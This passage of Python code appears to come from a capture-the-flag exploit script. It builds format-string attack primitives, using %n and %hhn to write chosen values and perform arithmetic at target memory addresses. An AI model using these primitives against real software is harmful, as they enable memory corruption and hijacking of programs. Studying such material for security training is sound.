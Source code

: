 ```python3
  assert len(w) == 32
  _send(w)
  index += 1

def send_end():
  _send(b"\0" * 32)

def p32(i):
  return struct.pack("<I", i)

def var32(i):
  return p32(0xDEAD1000 + 4 * i)

def tmp32(i):
  return p32(0xDEAD1000 + 4 * i)

def set_byte(addr, val):
  send("%12$.{}d%11$hhn".format(val), addr)

def set(addr, val):
  send("%12$.{}d%11$n".format(val), addr)
  
def test_byte(addr_in, addr_out):
  send("%11$.1s%12$n", addr_in, addr_out)

def inc_if_byte(idx_orig, addr_test, addr_out=None):
  if addr_out is None:
      addr_out = idx_to_addr(idx_orig)
  send(
    "%{0}$.*{0}$d%12$.1s%11$n".format(idx_orig),
    addr_out, addr_test)

def inc_byte(idx_orig, addr_out=None):
  if addr_out is None:
      addr_out = idx_to_addr(idx_orig)
  send(
    "%{0}$.*{0}$dA%11$n".format(idx_orig),
    addr_out)

def add_const(idx_orig, value, addr_out=None):
  if addr_out is None:
      addr_out = 0xDEAD1000 - 3*4 + idx_orig * 4
  send1(
    "%{0}$.*{0}$d%99$.{1}d%12$n".format(idx_orig, value),
    addr_out)

  
addr_A = 0xDEAD1000
addr_B = 0xDEAD1004
addr_O = 0xDEAD1800

idx_A = 3
idx_B = 4

def idx_to_addr(idx):
  return 0xDEAD1000 - 3*4 + idx * 4

#  A   3$  0xDEAD1000
#  B   4$  0xDEAD1004

# c0   5$  0xDEAD1008
# c1   6$  0xDEAD100c

```